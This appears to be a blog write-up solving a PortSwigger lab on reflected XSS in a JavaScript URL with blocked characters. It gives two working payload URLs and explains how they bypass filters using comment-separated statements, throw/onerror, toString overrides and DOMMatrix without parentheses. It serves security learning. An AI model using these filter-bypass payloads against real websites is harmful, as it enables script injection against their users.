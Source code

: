 ```yaml
---
title: "Expert Lab: Reflected XSS in a JavaScript URL with some characters blocked"
published: true
tags: [Web Application Security, Web Security Academy, Expert Labs, Cross-Site Scripting, XSS, Javascript]
image: /blog/assets/poison-icon.png
---
```


<br>
![](/blog/assets/poison-icon.png)

<br>
### Link
[Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

<br>
### Lab Description
* * *
<br>
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.

<br>
### Solutions
* * *
<br>
### Solution 1:
Visit the following URL, replacing your-lab-id with your lab ID:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

The lab will be solved, but the alert will only be called if you click "Back to blog" at the bottom of the page.

The exploit uses exception handling to call the alert function with arguments. The throw statement is used, separated with a blank comment in order to get round the no spaces restriction. The alert function is assigned to the onerror exception handler.

As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.

<br>
Here are some explanations about the Javascript code used above:

First of all, the code is using the comma operator. What the comma operator does is allow you to evaluate multiple expressions. In particular in this case, you have three:

```js
   x=x=>{throw onerror=alert,1337},toString=x,window+''
// ^_____________________________^ ^________^ ^_______^
//                 1                     2         3
```

Let's examine them one by one:

<br>
#### Brief Note about Implicit Globals
This is going to be relevant for most of the below sections, so I want to clear it up first. Any time you assign to any name you haven't declared with `var`, `let`, or `const` it implicitly assigns to a property on the global object. In the browser, the global object is `window`, so any implicit globals go there.

<br>
#### An Arrow Function
```js
x=x=>{onerror=alert; throw 1337}
```

##### Definition
This will create a new arrow function and assign it to `x`. Since there is no variable declaration, `x` will be an implicit global and thus attached to `window`. This isn't extremely useful, it's likely done to save a few characters. The function also takes a single parameter called `x` but does nothing with it. Again, nothing useful, saves up a single character, otherwise it needs to be defined as `()=>`.

<br>
#### Overriding `toString`
```js
toString=x
```

This part will override the `toString` method on `window` and change it to the `x` function. Thus any time you explicitly or implicitly convert `window` to a string, it will instead execute `x`.

```js
x = x => {
  onerror = alert;
  throw 1337
}

toString = x;

window.toString();
```

<br>
#### Converting `window` to String
In JavaScript, when you try to concatenate any value with a string, the value will be implicitly also be converted to a string. This is usually done by calling the `toString()` method.

The same thing happens in the last part of the code:

```js
window+''
```

This will:

1. trigger conversion to a string, which
2. calls the `toString` method on `window`, which
3. was overridden with `x` using `toString=x`, which
4. calls the `x` function instead, which
5. sets the global error handler to just be `alert` (`onerror=alert`) and immediately throws an error (throw `1337`), which
6. invokes the global error handler

<br>
#### Why omitting `window+''` doesn't Throw an Error
Hopefully clear from the above, but to address it directly, that code is needed to set off the whole chain of reactions defined before it.
Here is the full code with explanation and formatting for clarity:

```js
//create a function
window.x = x => {
  onerror = alert; //changes the global error handler
  throw 1337       //throws an error to trigger the error handler
};

//overwrite the `toString` method of `window` so it always throws an error
window.toString = window.x;

//implicitly call `window.toString()` by performing a string concatenation
window + '';
```

<br>
### Solution 2:
Another interesting solution is to use _JavaScript without parentheses using DOMMatrix_ which is explained in detail by Gareth Heyes in a great post. You can find the link below in the External Links section of this post.
To solve this lab with DOMMatrix payload, use:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=z=%3E{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'%2b':'%2bx},toString=x,window%2b%27%27,{x:%27
```

The payload in this code, URL decoded is:

```js
&'},x=z=>{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x},toString=x,window+'',{x:'
```

As explained in Solution 1: `/**/` is used to bypass space restriction, also click "Back to blog" link to pop alert message box and solve the lab.


<br>
### _External Links_
* * *
* ### [Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
* ### [Cross-site scripting (XSS) cheat sheet: Restricted characters](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#restricted-characters)
* ### [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
* ### [JavaScript without parentheses using DOMMatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)
* ### [Javascript window object, window+'', what does this code do](https://stackoverflow.com/questions/64416874/javascript-window-object-window-what-does-this-code-do)

<br>
### _References_
* * *
* ###### [Graphic](https://icons.iconarchive.com/icons/aha-soft/food/256/poison-icon.png) by [Aha-Soft](https://iconarchive.com/artist/aha-soft.html), [License URL](https://iconarchive.com/icons/aha-soft/food/license.txt) is Free for non-commercial use.
